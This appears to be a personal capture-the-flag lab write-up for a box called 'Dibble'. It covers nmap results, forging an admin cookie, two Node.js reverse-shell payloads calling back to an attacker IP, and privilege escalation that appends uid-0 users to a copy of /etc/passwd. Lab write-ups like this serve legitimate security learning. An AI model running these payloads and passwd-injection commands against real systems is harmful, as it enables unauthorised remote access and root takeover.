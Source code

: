 # Dibble
# date 8/8/2023
# ip 192.168.217.110
javacode execution on port 3000 via nodejs in logs creation > local rev shell > suid cp > modified passwd and added root1 user > switch to root1 

# nmap
```
22/tcp   open  ssh     syn-ack OpenSSH 8.3 (protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.46 ((Fedora))
3000/tcp open  http    syn-ack Node.js (Express middleware)

```
# http://192.168.217.110:3000/
```
auth/register
Let’s create an account for the test and look at the cookie

First url then base64

Type admin and encrypt

First base64 then url

Paste back

Refresh the page

Visit http://192.168.249.110:3000/logs

Create a new log

```
# exploitation
```
(function(){
 var net = require(“net”),
 cp = require(“child_process”),
 sh = cp.spawn(“/bin/bash”, []);
 var client = new net.Socket();
 client.connect(21, “192.168.45.188”, function(){
 client.pipe(sh.stdin);
 sh.stdout.pipe(client);
 sh.stderr.pipe(client);
 });
 return /a/;
})();

(function(){
 var net = require("net"),
 cp = require("child_process"),
 sh = cp.spawn("/bin/sh", []);
 var client = new net.Socket();
 client.connect(3000, "192.168.45.188", function(){
 client.pipe(sh.stdin);
 sh.stdout.pipe(client);
 sh.stderr.pipe(client);
 });
 return /a/; // Prevents the Node.js application form crashing
})();
```
# priv esc
```
find / -perm -u=s -type f 2>/dev/null
suid



cat /etc/passwd > passwd.bak

openssl passwd pass1234
$1$IxB1VJyW$W4DOYaocpluTPkciv/Htf0

echo root3:$1$IxB1VJyW$W4DOYaocpluTPkciv/Htf0:0:0:root:/root:/bin/bash >> passwd.bak


echo root2:NTOdsvj8zdrXs:0:0:root:/root:/bin/bash >> passwd.back
```
